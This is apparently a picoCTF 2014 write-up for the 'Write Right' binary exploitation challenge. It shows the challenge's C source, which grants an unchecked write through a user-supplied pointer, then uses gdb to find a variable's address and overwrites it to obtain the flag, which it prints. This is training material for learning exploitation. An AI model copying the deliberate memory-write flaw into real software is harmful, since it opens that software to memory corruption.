 # Pico-CTF 2014: Write Right 

**Category:** Binary Exploitation
**Points:** 50
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c).)
> Can you change the secret? The binary can be found at /home/write_right/ on the shell server. The source can be found [here](write_right.c). 

## Write-up
[//]: # (> Your write up goes here.)
> Looking at source code its easy to understand that write_right binary reads address and write whatever user gives it as a input.
Looking at source code:
> > ```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

unsigned secret = 0xdeadbeef;

int main(int argc, char **argv){
    unsigned *ptr;
    unsigned value;

    char key[33];
    FILE *f;

    printf("Welcome! I will grant you one arbitrary write!\n");
    printf("Where do you want to write to? ");
    scanf("%p", &ptr);
    printf("Okay! What do you want to write there? ");
    scanf("%p", (void **)&value);

    printf("Writing %p to %p...\n", (void *)value, (void *)ptr);
    *ptr = value;
    printf("Value written!\n");

    if (secret == 0x1337beef){
        printf("Woah! You changed my secret!\n");
        printf("I guess this means you get a flag now...\n");

        f = fopen("flag.txt", "r");
        fgets(key, 32, f);
        fclose(f);
        puts(key);

        exit(0);
    }

    printf("My secret is still safe! Sorry.\n");
}
``` 

> Solution to get the flag is to give the address of variable secret when it asks where you want to write and when it ask what you want to write give the secret `1337beef` as format specifier specified in scanf function is `%p`, so we don't need to give the int of 1337beef.
> To get the address of secret variable start the program in gdb and give the command: `p &secret` (equivalent to print &secret)

> > ```bash
pico1139@shell:/home/write_right$ gdb -q write_right
Reading symbols from write_right...(no debugging symbols found)...done.
(gdb) p &secret
$1 = (<data variable, no debug info> *) 0x804a03c <secret>
```

> Address of secret is 0x804a03c. After getting the address ran the binary:
> > ```
pico1139@shell:/home/write_right$ ./write_right
Welcome! I will grant you one arbitrary write!
Where do you want to write to? 804a03c
Okay! What do you want to write there? 1337beef
Writing 0x1337beef to 0x804a03c...
Value written!
Woah! You changed my secret!
I guess this means you get a flag now...
arbitrary_write_is_always_right
```
> The flag is **arbitrary_write_is_always_right**

## Other write-ups and resources

* None

